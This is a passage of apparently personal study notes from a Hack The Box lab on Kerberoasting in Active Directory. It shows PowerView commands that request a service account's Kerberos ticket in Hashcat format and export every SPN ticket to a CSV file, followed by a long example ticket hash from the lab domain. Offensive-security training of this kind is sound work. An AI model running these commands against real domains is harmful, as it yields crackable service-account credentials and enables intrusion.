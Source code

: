 > From here, we could target a specific user and retrieve the TGS ticket in Hashcat format.

### **Using PowerView to Target a Specific User**

```Bash
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

- Example
    
    ```Bash
    PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
    
    SamAccountName       : sqldev
    DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
    ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
    TicketByteHexStream  :
    Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433*$BF9729001
                           376B63C5CAC933493C58CE7$4029DBBA2566AB4748EDB609CA47A6E7F6E0C10AF50B02D10A6F92349DDE3336018DE177
                           AB4FF3CE724FB0809CDA9E30703EDDE93706891BCF094FE64387B8A32771C7653D5CFB7A70DE0E45FF7ED6014B5F769F
                           DC690870416F3866A9912F7374AE1913D83C14AB51E74F200754C011BD11932464BEDA7F1841CCCE6873EBF0EC5215C0
                           12E1938AEC0E02229F4C707D333BD3F33642172A204054F1D7045AF3303809A3178DD7F3D8C4FB0FBB0BB412F3BD5526
                           7B1F55879DFB74E2E5D976C4578501E1B8F8484A0E972E8C45F7294DA90581D981B0F177D79759A5E6282D86217A03A9
                           ADBE5EEB35F3924C84AE22BBF4548D2164477409C5449C61D68E95145DA5456C548796CC30F7D3DDD80C48C84E3A538B
                           019FB5F6F34B13859613A6132C90B2387F0156F3C3C45590BBC2863A3A042A04507B88FD752505379C42F32A14CB9E44
                           741E73285052B70C1CE5FF39F894412010BAB8695C8A9BEABC585FC207478CD91AE0AD03037E381C48118F0B65D25847
                           B3168A1639AF2A534A63CF1BC9B1AF3BEBB4C5B7C87602EEA73426406C3A0783E189795DC9E1313798C370FD39DA53DD
                           CFF32A45E08D0E88BC69601E71B6BD0B753A10C36DB32A6C9D22F90356E7CD7D768ED484B9558757DE751768C99A64D6
                           50CA4811D719FC1790BAE8FE5DB0EB24E41FF945A0F2C80B4C87792CA880DF9769ABA2E87A1ECBF416641791E6A762BF
                           1DCA96DDE99D947B49B8E3DA02C8B35AE3B864531EC5EE08AC71870897888F7C2308CD8D6B820FCEA6F584D1781512AC
                           089BFEFB3AD93705FDBA1EB070378ABC557FEA0A61CD3CB80888E33C16340344480B4694C6962F66CB7636739EBABED7
                           CB052E0EAE3D7BEBB1E7F6CF197798FD3F3EF7D5DCD10CCF9B4AB082CB1E199436F3F271E6FA3041EF00D421F4792A0A
                           DCF770B13EDE5BB6D4B3492E42CCCF208873C5D4FD571F32C4B761116664D9BADF425676125F6BF6C049DD067437858D
                           0866BE520A2EBFEA077037A59384A825E6AAA99F895A58A53313A86C58D1AA803731A849AE7BAAB37F4380152F790456
                           37237582F4CA1C5287F39986BB233A34773102CB4EAE80AFFFFEA7B4DCD54C28A824FF225EA336DE28F4141962E21410
                           D66C5F63920FB1434F87A988C52604286DDAD536DA58F80C4B92858FE8B5FFC19DE1B017295134DFBE8A2A6C74CB46FF
                           A7762D64399C7E009AA60B8313C12D192AA25D3025CD0B0F81F7D94249B60E29F683B797493C8C2B9CE61B6E3636034E
                           6DF231C428B4290D1BD32BFE7DC6E7C1E0E30974E0620AE337875A54E4AFF4FD50C4785ADDD59095411B4D94A094E87E
                           6879C36945B424A86159F1575042CB4998F490E6C1BC8A622FC88574EB2CF80DD01A0B8F19D8F4A67C942D08DCCF23DD
                           92949F63D3B32817941A4B9F655A1D4C5F74896E2937F13C9BAF6A81B7EEA3F7BC7C192BAE65484E5FCCBEE6DC51ED9F
                           05864719357F2A223A4C48A9A962C1A90720BBF92A5C9EEB9AC1852BC3A7B8B1186C7BAA063EB0AA90276B5D91AA2495
                           D29D545809B04EE67D06B017C6D63A261419E2E191FB7A737F3A08A2E3291AB09F95C649B5A71C5C45243D4CEFEF5EED
                           95DDD138C67495BDC772CFAC1B8EF37A1AFBAA0B73268D2CDB1A71778B57B02DC02628AF11
    ```
    

### **Exporting All Tickets to a CSV File**

```Bash
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

### **Viewing the Contents of the .CSV File**
